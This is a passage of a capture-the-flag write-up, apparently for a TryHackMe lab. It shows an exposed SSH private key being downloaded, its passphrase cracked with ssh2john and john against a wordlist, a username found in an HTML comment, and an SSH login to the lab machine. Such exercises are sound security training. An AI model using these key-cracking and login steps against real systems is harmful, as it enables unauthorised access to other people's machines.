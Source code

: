 Next step, check **/secret**

Awesome!!! We have the Secret key. We can use it to SSH the victim server.
- First: Download it
- Second: Convert the key to a readable format for **john**
```
/usr/share/john/ssh2john.py secretKey > GamingKey  
```
- Third: Crack the key with **john** and the list **dict.lst**
```
john --wordlist=/media/sf_LOLO_Share/THM/dict.lst /media/sf_LOLO_Share/THM/GamingKey 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2022-02-20 15:26) 100.0g/s 21700p/s 21700c/s 21700C/s letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
We have the password but not yet the user name.... We didn't find this information into **manifesto.txt**. 

By checking the source of the main page
```
	<div id="footer">
			<ul>
				<li>
					<a href="about.html" class="video">&nbsp;</a>
				</li>
				<li>
					<a href="myths.html" class="myths">&nbsp;</a>
				</li>
				<li class="last">
					<a href="#" class="archives">&nbsp;</a>
				</li>
			</ul>
		</div>
	</div>
</body>
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
</html>
```
OK, we have a userbane **john**
---
### Exploitation
SSH the victim machine witht he key
```
chmod 600 secretKey
ssh -i secretKey john@10.10.47.85
Enter passphrase for key 'secretKey':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 20 20:34:46 UTC 2022

  System load:  0.0               Processes:           98
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for eth0: 10.10.47.85
  Swap usage:   0%

```
